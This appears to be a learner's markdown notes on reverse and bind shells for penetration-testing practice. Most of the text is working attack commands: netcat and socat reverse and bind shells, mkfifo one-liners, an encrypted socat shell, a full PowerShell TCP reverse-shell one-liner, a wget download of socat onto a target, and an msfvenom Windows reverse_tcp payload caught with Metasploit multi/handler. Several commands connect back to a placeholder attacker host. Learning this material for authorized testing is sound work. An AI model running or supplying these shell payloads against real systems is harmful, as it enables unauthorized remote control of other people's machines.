 found this line too funny - Socat is like netcat on steroids
The `exploit/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells.
Msfvenom is used to generate payloads on the fly
[rev shell cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[one more rev shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[seclists](https://github.com/danielmiessler/SecLists) also contains code for shells

- reverse shell - open listener
- bind shell - shell on target, get rce

### netcat
reverse shells - ``nc -lvnp <port-number>``
bind shells - `nc <target-ip> <chosen-port>`

## Netcat shell stabilizing

### 1. python
`python -c 'import pty;pty.spawn("/bin/bash")'`
replace with python2 and python3 respectively

`export TERM=xterm`
gives access to term commands (eg: `clear`)

background the process using `Ctrl + Z`

in our own terminal, we type `stty raw -echo; fg`
it turns off our terminal echo, hence autocomplete, `Ctrl+C` , and arrow keys start working, foregrounds the shell.

if the shell dies, no input is seen, type `reset` and press enter

### 2. rlwrap
windows shell -
`rlwrap nc -lvnp <port>`

linux shell -
do the same as windows then `Ctrl + Z` and then ``stty raw -echo; fg`` in your own terminal

### 3. Socat
limited to linux targets
`sudo python3 -m http.server 80`
`wget <LOCAL-IP>/socat -O /tmp/socat`

transfer socat static compiled binary to target machine

`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`
in windows

`stty -a`
`stty rows <number>`
`stty cols <number>`
fill the numbers and resize the terminal


# socat

### REVERSE SHELL (for basic reverse shell listener)
`socat TCP-L:<port> -`

to connect back -
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` (windows)
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` (linux)

### BIND SHELLS

linux target
`socat TCP-L:<PORT> EXEC:"bash -li"`

windows target
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

connecting to waiting listener -
`socat TCP:<TARGET-IP>:<TARGET-PORT> -`


### STABILIZING THE SHELL
``socat TCP-L:<port> FILE:`tty`,raw,echo=0``

special command:
`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`
- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)  
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

# SOCAT ENCRYPTED SHELLS

1. generate certificate
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`

2. We then need to merge the two created files into a single `.pem` file:
`cat shell.key shell.crt > shell.pem`  

3. Now, when we set up our reverse shell listener, we use:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

`verify=0` to avoid validating the certificate

note : certificate must be used on the device whichever device is listening

to connect back:
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

### BIND SHELL
target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
attacker : `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

# COMMON SHELL PAYLOADS

`nc -lvnp <PORT> -e /bin/bash`  
Connecting to the above listener with netcat would result in a bind shell on the target.
Equally, for a reverse shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target.

netcat bind shell
`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
_The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle._

netcat reverse shell
`mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

```cmd.exe
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
one liner code (webshell/reverse shell)

[one liner payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

# msfvenom

generating windows reverse shell in exe format
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager

2 types of payloads -
- staged payloads: 2 parts: stager and the shell code, stager establishes connection with the listener and then the shell code is uploaded. This makes sure that it doesn't touch the disk.
- stageless payloads: whatever payload we have used till now, 1 piece of code is uploaded 

payload naming convention- `<OS>/<arch>/<payload>`

`msfvenom --list payloads`

# metasploit multi/handler

Multi/Handler is a superb tool for catching reverse shells.
`msfconsole`
`use multi/handler`

